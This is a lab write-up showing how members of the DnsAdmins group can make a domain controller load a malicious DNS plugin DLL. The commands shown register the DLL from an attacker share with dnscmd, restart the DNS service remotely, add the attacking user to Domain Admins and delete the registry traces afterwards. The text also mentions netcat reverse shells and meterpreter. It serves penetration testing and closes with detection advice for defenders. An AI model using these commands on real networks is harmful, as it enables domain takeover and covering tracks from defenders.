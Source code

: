 # From DnsAdmins to SYSTEM to Domain Compromise

In this lab I'm trying to get code execution with `SYSTEM` level privileges on a DC that runs a DNS service as originally researched by Shay Ber [here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).

The attack relies on a [DLL injection](../../offensive-security/t1055-process-injection/dll-injection.md) into the dns service running as SYSTEM on the DNS server which most of the time is on a Domain Contoller.

## Execution

For the attack to work, we need to have compromised a user that belongs to a `DnsAdmins` group on a domain. Luckily, our user `spotless` already belongs to the said group:

```csharp
 net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-16-55-52.png)

### Building the DLL

As mentioned earlier, we need to build a DNS plugin DLL that we will be injecting into a dns.exe process on a victim DNS server \(DC\). Below is a screenshot of the DLL exported functions that are expected by the dns.exe binary. I have also added a simple system command to invoke a netcat reverse shell once the plugin is initialized and code is executed. 

I then tested the function with rundll32 as shown below, which returned a reverse shell to my attacking machine:

```csharp
rundll32.exe .\dnsprivesc.dll,DnsPluginInitialize
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-17-30-47.png)

### Abuse DNS with dnscmd

Now that we have the DLL and we checked that it is working, we can ask the victim DC to load our malicious DLL \(from the victim controlled network share on host 10.0.0.2\) next time the service starts \(or the attacker restarts it\):

{% code-tabs %}
{% code-tabs-item title="attacker@victim.memberOfDnsAdmins" %}
```csharp
dnscmd dc01 /config /serverlevelplugindll \\10.0.0.2\tools\dns-priv\dnsprivesc.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

The below looks promising and suggests the request to load our malicious DLL was successful:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-55-59.png)

{% hint style="info" %}
`dnscmd` is a windows utility that allows people with `DnsAdmins` privileges manage the DNS server. The utility can be installed by adding `DNS Server Tools` to your system as shown in the below screengrab.
{% endhint %}

![](../../.gitbook/assets/screenshot-from-2018-11-11-17-04-48.png)

The below command on the victim further suggests that our request was successful:

```csharp
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-51-21.png)

### Getting code execution with NT\SYSTEM

Now the next time dns service loads/gets restarted, our malicious DLL should be loaded and a reverse shell should be sent back to our attacking system, so let's go and restart the DNS service:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
{% endcode-tabs-item %}
{% endcode-tabs %}

By this point, I should have received a reverse shell, but unfortunately, in my lab, this technique did not work as expected. 

After checking the DNS logs on the `DC01` I saw the below error, suggesting there was something off with my DLL:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-45-51.png)

I tried exporting functions with C++ name mangling and without and although the DLL exports seemed to be OK per CFF Explorer, I was still not able to make the DC load my malicious DLL successfully without corrupting the dns service:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-46-09.png)

{% hint style="warning" %}
Although I was not able to correctly injected the DLL without crashing the dns service in my labs, I still decided to publish these notes, just in case they will be stubmled upon by a reader who had successfully injected a custom DLL and who would like to share their thoughts on what I am overlooking - this would be much appreciated.
{% endhint %}

Since I could not get my malicious DLL injected into the dns.exe successfully, I thought of trying to inject the meterpreter payload using the same technique.

It can be observed, that the DLL gets ineed loaded and we receive a call back attempt from meterpreter, but since the DLL does not conform to the required format \(does not have required exported functions\), the session dies immediately:

![](../../.gitbook/assets/screenshot-from-2018-11-11-22-33-58.png)

Since the above suggests that the the DLL code still got executed, we can try asking the DLL to execute the following on the DC:

```csharp
net group 'domain admins' spotless /add /domain
```

```text
dnsprivesc.dll
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-22-55-35.png)

Before restarting the DNS service and getting our malicious DLL executed, let's make sure our attacking user spotless is not in `Domain Admins` group:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-03-40.png)

Now if we restart the DNS service which will load our addDA.dll, we see that the user spotless is now a member of the `Domain Admins`:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-03-52.png)

{% hint style="danger" %}
Warning: at this time the DNS service is probably crashed, so be warned - this is not the stealthiest method and the activity probably will get picked up by defenders real quick unless you can restore the DNS service immediately.
{% endhint %}

Below confirms that the dns service is down, however we can still access the DC C$ share by DC's IP:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-09-23.png)

You could think about scripting/automating the after-attack cleanup and DNS service restoration and include the required code in the same malicious DLL that creates a backdoor user in the first place:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg query \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
sc.exe \\10.0.0.6 stop dns
sc.exe \\10.0.0.6 start dns
//remove any other traces/logs
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-21-55.png)

We can now access the C$ using DC01 computer name:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-24-44.png)

### Bonus Reminder

It turns out that the reason the meterpreter shell failed was a classic mistake of not using the right staged/non-staged payloads - always double check your payloads vs listeners. 

Once I set up the listener correctly, the meterpreter shell came back as expected:

![](../../.gitbook/assets/peek-2018-11-12-21-58.gif)

## Observations

As a defender, one should be suspicious of child processes spawned by dns.exe on DCs:

![](../../.gitbook/assets/screenshot-from-2018-11-12-22-09-43.png)

Also, you may want to consider monitoring HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters value `ServerLevelPluginDll`

## References

{% embed url="https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83" %}

{% embed url="http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html" %}

{% embed url="https://github.com/dim0x69/dns-exe-persistance" %}

